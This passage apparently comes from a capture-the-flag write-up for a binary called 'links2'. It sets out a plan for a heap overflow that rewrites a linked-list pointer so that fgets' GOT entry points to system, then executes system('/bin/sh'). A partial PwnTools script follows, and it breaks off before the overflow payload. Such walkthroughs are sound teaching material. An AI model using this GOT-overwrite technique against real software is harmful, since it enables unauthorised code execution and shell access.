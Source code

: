 So our plan of action is as follows:

1. Add a few nodes to the list
2. Modify a middle node, ensuring the data begins with "/bin/sh" and fills the 64-byte data so that we can overflow the link with the address of `got.fgets`
3. Modify the next node (the one now pointing to `got.fgets`) and write the address of `got.system`
4. Try to modify the node where we wrote "/bin/sh", triggering `write_data` and therefore calling `system("/bin/sh")` instead of the intended `fgets`

A couple of things to mention:

-   To populate the address of `got.system`, the function must be called. Therefore we call the `view_time` function before doing our arbitrary write.
-   Calling `view_time` breaks my usual `gdb.debug` command; hence the `gdb.attach` command in the script. We can use that to debug but unfortunately lose access to the `heap` and `vis_heap_chunks` commands. If you want to debug using the standard method, comment out the "View time" line of code.

We'll create a PwnTools script, setting a breakpoint at `write_data`.

```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 3 elements to list
for i in range(3):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Modify element in list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
```